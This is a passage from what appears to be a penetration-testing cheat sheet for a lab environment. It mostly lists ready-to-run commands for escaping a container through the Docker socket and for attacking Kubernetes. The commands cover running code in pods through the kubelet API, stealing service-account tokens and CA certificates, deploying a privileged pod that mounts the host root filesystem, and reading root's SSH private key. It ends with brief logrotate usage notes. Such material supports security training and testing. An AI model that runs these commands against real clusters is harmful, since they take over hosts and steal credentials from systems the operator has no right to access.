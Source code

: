   `ls -la /hostsystem/root`
- **Socket Chroot Escape**: Uses writable socket for direct host chroot access.  
  `docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash`

## Kubernetes Exploitation

### API Server Enumeration
- **API Server Access**: Tests anonymous access to Kubernetes API server.  
  `curl https://10.129.10.11:6443 -k`

### Kubelet API Abuse
- **Extract Pods**: Retrieves pod information via Kubelet API.  
  `curl https://10.129.10.11:10250/pods -k | jq .`
- **Kubeletctl Pods**: Lists pods using kubeletctl tool.  
  `kubeletctl -i --server 10.129.10.11 pods`
- **Scan RCE**: Identifies pods vulnerable to remote code execution.  
  `kubeletctl -i --server 10.129.10.11 scan rce`
- **Execute Commands**: Runs commands in target container via Kubelet.  
  `kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx`

### Token & Certificate Extraction
- **Extract Service Token**: Retrieves Kubernetes service account token from pod.  
  `kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee k8.token`
- **Extract CA Certificate**: Downloads Kubernetes CA certificate from pod.  
  `kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt`

### Privilege Enumeration
- **List Permissions**: Checks Kubernetes RBAC permissions for service account.  
  `export token=$(cat k8.token) && kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list`

### Pod Creation
- **Create Privileged Pod**: Deploys YAML pod with host root filesystem mount.  
  `kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 apply -f privesc.yaml`
- **List Pods**: Verifies new privileged pod is running.  
  `kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 get pods`
- **Extract Host Keys**: Retrieves root SSH keys from mounted host filesystem.  
  `kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc`

# Logrotate

Manages log files to prevent disk overflow by archiving or deleting old logs. Controls log size, age, and actions.

- **Usage**: `logrotate [OPTION...] <configfile>`  
  `man logrotate` or `logrotate --help`  
  - `-d, --debug`: Test and print debug messages  
  - `-f, --force`: Force rotation  
  - `-v, --verbose`: Display messages  
  - `-l, --log=logfile`: Log to file or syslog  
